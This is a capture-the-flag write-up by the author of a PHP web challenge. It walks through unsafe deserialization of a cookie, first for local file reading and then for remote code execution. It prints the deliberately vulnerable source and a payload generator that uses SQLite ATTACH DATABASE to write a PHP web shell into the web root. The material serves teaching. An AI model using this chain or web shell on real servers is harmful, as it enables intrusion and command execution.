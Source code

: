 ```yaml
---
title: Pretty Hyper Phrog (Cyberleague Quarterfinals 2022)
date: 2022-12-23 15:03
categories:
    - authored
tags:
    - web
    - php
---
```


Writeup for one of the web challenges I set for [Cyberleague
2022](https://cyberleague.co/).

Here is the [source](/files/clqf-2022/php.zip)

The main vuln is PHP deserialization. In PHP, this allows
for arbitrary properties to be assigned to objects. In addition, the class of
the object can also be controlled. With these interesting capabilities of unsafe
deserialization, I made a 2-phase challenge that will require one to leverage
both concepts + some other exotic concepts to ultimately get RCE.

### Phase 1: LFI

Since the source wasn't provided in the CTF, our first goal is to get some sort
of LFI to get the complete source. 


Here's a sample "password", our attack vector:

```base64
Tzo0OiJVc2VyIjozOntzOjc6InBpY3R1cmUiO3M6MTY6InN0YXRpYy9waHJvZy5naWYiO3M6ODoidXN lcm5hbWUiO3M6ODoic2FtdXpvcmEiO3M6NDoidXVpZCI7czoxMzoiNjNhNDYyNTViNGM5YiI7fQ==
```

We know that each user's password is a PHP serialized object, and there is a
property `picture` that is pointing to `static/phrog.gif`. After some
experimenting we see that this is passed to `file_get_contents`, which we can
use to enumerate the source.

---

### Phase 2: RCE

We not only want LFI, we want RCE too! With big and well-known frameworks, PHP
deserialization is a piece of cake, as there are ready-made RCE gadget chains
online. However, this is a custom implementation so it doesn't exist. We need to
make it ourselves :(

Some of the leaked files:

index.php
```php
<?php
require("user.php");
require("util.php");

$conn = new Conn;

if (array_key_exists("password", $_COOKIE) === false) {
    echo file_get_contents("static/index.html");
    die();
}
$temp = unserialize(base64_decode($_COOKIE["password"]));
$conn->query = "select username, uuid from users where uuid = :uuid";
$conn->params = array(":uuid" => $temp->uuid);
$result = $conn->query();
if ($result) {
    $user = $temp;
} else {
    header("Location: /login.php");
}
?>

<!DOCTYPE html>
<head>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-EVSTQN3/azprG1Anm3QDgpJLIm9Nao0Yz1ztcQTwFspd3yD65VohhpuuCOmLASjC" crossorigin="anonymous">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/js/bootstrap.bundle.min.js" integrity="sha384-MrcW6ZMFYlzcLA8Nl+NtUVF0sA7MsXsP1UyJoMp4YLEuNSfAP+JcXn/tWtIaxVXM" crossorigin="anonymous"></script>
</head>
<body>
    <div class="container mt-5 px-auto">
        <div class="row">
            <div class="col">
                 <?php echo $user->whoami(); ?>
            </div>
            <div class="col">
                <p>I hope u like phrogs</p>
            </div>
        </div>
    </div>
</body>
```

user.php
```php
<?php
class User {
    public $picture;
    public $username;
    public $uuid;

    public function __construct(string $username, string $uuid) {
        $this->username = $username;
        $this->picture = "static/phrog.gif";
        $this->uuid = $uuid;
    }
    
    public function whoami() {
        $picture = base64_encode(file_get_contents($this->picture));
        return "
            <div class='card' style='width: 50%'>
                <img class='card-img-top' src='data:image/gif;base64,{$picture}' class='rounded' alt='phrog'>
                <div class='card-body'>
                    <h5 class='card-title'>User: {$this->username}</h5>
                    <p>uuid: {$this->uuid}</p>
                </div>
            </div>
        ";
    }
}
?>
```

util.php
```php
<?php
class Conn {
    public $query;
    public $params;

    public function __call(string $name, array $arguments) {
        $conn = new SQLite3("/sqlite3/db");
        $query = $this->query;
        foreach ($this->params as $key=>$value) {
            $value = $conn->escapeString($value);
            $query = str_replace($key, "'$value'", $query);
        }

        // in case we ever need to execute multiple queries
        $queries = explode("; ", $query);
        foreach ($queries as $temp) {
            $result = $conn->query($temp);
        }
        if ($result !== false) {
            if ($result->numColumns()) {
                return $result->fetchArray();
            } else {
                return true;
            }
        } else {
            return $result;
        }
    }
}
?>
```

Some things to note:

1. In `Conn`, the query is being prepared manually. This could maybe give us
   SQLi, if we manage to bypass the (not so stringent) checks. Props to RVCTF
   who found an unintended solution via the weak escaping. (The reason why I had
   to implement my own query, is because we need multiple queries for the
   exploit - and I couldn't find a driver that could allow me to do that. So I
   exploded based on `; ` and ran each query manually.)
2. In `Conn`, `__call` is being used to invoke the query function. [This magic
   method](https://www.phptutorial.net/php-oop/php-__call/) defines a fallback
   for undefined properties that are invoked.

As you might guess based on the context of the challenge, we can change `$temp`
(and hence `$user`) into a `$Conn` object. This would allow us to control the
`$query` array in our poisoned object and execute our own queries via the
`->whoami()` call (since it doesn't exist on a `$Conn`, it will fallback to
`__call()`). While we do this, we also need to ensure that `->username` and
`->uuid` remains constant so we pass the check.

With this we can execute arbitrary SQL (should I call this SQLi?). But how to
get RCE?

SQLite uses a single-file database locally, instead of connecting to a remote
service. And we can attach new databases to arbitrary locations, which creates a
file with some binary content, as well as whatever we insert into the new
database. 

So in a fashion similar to PHP web shells, we can create a malicious SQLite
database in `/var/www/html`, create a table and insert a row with our web
shell, thus gaining RCE!

Below is the code to generate the payload:

```php
<?php
class Conn {
    public $username = 'samuzora';
    public $uuid = '63a46255b4c9b';
    public $query = "attach database './63a46255b4c9b.php' as test; create table test.a (payload text); insert into test.a values ('<?php system(\$_GET[\"cmd\"]) ?>')";
    public $params = array();
}
echo base64_encode(serialize(new Conn));
?>
```
